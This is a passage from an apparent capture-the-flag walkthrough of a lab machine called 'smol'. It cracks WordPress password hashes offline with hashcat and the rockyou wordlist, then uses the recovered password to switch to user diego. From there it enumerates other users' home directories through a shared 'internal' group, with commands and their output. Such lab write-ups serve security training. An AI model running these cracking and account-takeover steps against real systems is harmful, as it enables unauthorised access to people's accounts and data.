 
We can copy these hashes and attempt offline password cracking.
```bash
┌──(christ㉿Christ-PC)-[~/Documents]
└─$ hashcat -a 0 -m 400 hashes .rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>

┌──(christ㉿Christ-PC)-[~/Documents]
└─$ hashcat -a 0 -m 400 hashes --show
$P$BWFxxxxxxxxxxxxxxxxxxxrff4JPwv1:<REDACTED>
```

We cracked the password of the Diego user who is also a local user on the target. Let's switch to this user using this password.
```bash
www-data@smol:/$ su diego
Password: 
diego@smol:/$ cd /home/diego
diego@smol:~$ ls -l
total 4
-rw-r--r-- 1 root root 33 Aug 16  2023 user.txt
```

A quick enumeration of the file system reveals that the home directories of all users belong to a custom group called `internal`.
```bash
diego@smol:/home$ ls -l
total 16
drwxr-x--- 4 diego internal 4096 Oct 27 08:59 diego
drwxr-x--- 2 gege  internal 4096 Aug 18  2023 gege
drwxr-x--- 5 think internal 4096 Jan 12  2024 think
drwxr-x--- 2 xavi  internal 4096 Aug 18  2023 xavi
diego@smol:/home$ id
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
```

We can enumerate this directories.
```bash
diego@smol:/home$ ls -la xavi/ think/ gege/
gege/:
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 6 root root         4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip

think/:
total 36
drwxr-x--- 5 think internal 4096 Oct 27 09:15 .
drwxr-xr-x 6 root  root     4096 Aug 16  2023 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw------- 1 think think      28 Oct 27 09:15 .lesshst
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null

xavi/:
total 20
```